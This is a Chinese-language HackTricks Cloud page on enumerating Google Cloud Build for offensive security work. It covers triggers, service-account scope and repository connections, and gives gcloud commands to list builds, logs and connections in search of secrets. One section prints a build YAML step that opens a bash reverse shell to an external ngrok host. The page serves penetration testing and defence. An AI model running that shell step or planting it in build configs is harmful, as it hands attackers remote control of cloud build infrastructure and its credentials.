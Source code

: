 # GCP - Cloud Build 枚举

<details>

<summary><strong>从零到英雄学习AWS黑客技术，参加</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

Google Cloud Build是一个托管的CI/CD平台，**自动化软件构建**和发布流程，与**源代码仓库**集成，并支持广泛的编程语言。它**允许开发人员自动构建、测试和部署代码**，同时提供自定义构建步骤和工作流程的灵活性。

每个Cloud Build触发器都**与Cloud仓库相关联或直接与外部仓库连接**（Github、Bitbucket和Gitlab）。

{% hint style="success" %}
我没有发现任何方法可以从这里或Cloud仓库窃取Github/Bitbucket令牌，因为当下载仓库时，它是通过[https://source.cloud.google.com/](https://source.cloud.google.com/) URL访问的，客户端不会访问Github。
{% endhint %}

### 事件

Cloud Build可以在以下情况下触发：

* **推送到分支**：指定分支
* **推送新标签**：指定标签
* **拉取请求**：指定接收PR的分支
* **手动调用**
* **Pub/Sub消息**：指定主题
* **Webhook事件**：将暴露一个HTTPS URL，请求必须使用密钥进行认证

### 执行

有3个选项：

* 一个yaml/json **指定要执行的命令**。通常是：`/cloudbuild.yaml`
* 只有一个可以在网络控制台和cli中“内联”指定
* 最常见的选项
* 对于未经认证的访问很重要
* 一个**Dockerfile**来构建
* 一个**Buildpack**来构建

### SA权限

**服务帐户具有`cloud-platform`范围**，因此可以**使用所有权限**。如果**没有指定SA**（如在提交时），将**使用默认SA** `<proj-number>@cloudbuild.gserviceaccount.com`。

默认情况下不赋予任何权限，但给它一些权限相当容易：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 审批

可以配置Cloud Build以**要求对构建执行进行审批**（默认禁用）。

### 连接 & 仓库

连接可以通过以下方式创建：

* **GitHub**：它将显示一个OAuth提示，要求权限以**获取Github令牌**，该令牌将存储在**Secret Manager**内。
* **GitHub Enterprise**：它将要求安装一个**GithubApp**。将在您的GitHub Enterprise主机上创建一个**认证令牌**，并将其作为**Secret Manager**的秘密存储在此项目中。
* **GitLab / Enterprise**：您需要提供**API访问令牌和读取API访问令牌**，这些将存储在**Secret Manager**中。

一旦生成连接，您可以使用它来**链接Github帐户有权访问的仓库**。

此选项可通过按钮使用：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
请注意，使用此方法连接的仓库**仅在使用第二代的触发器中可用**。
{% endhint %}

### 连接仓库

这与**`connection`**不同。这允许**不同**的方式来获取**对Github或Bitbucket仓库的访问**，但**不会生成连接对象，但它确实会生成一个仓库对象（第一代）。**

此选项可通过按钮使用：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 存储

有时Cloud Build会**生成一个新的存储来存储触发器的文件**。例如，在GCP提供的示例中就会发生这种情况：
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
存储桶 [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) 被创建用来存储 `.tgz` 文件，这些文件将被使用。

### 获取 shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 枚举

您可能会在构建配置和日志中发现**敏感信息**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 权限提升

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 未经认证的访问

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 后期利用

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击技巧！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF版本**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**telegram群组**](https://t.me/peass)或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
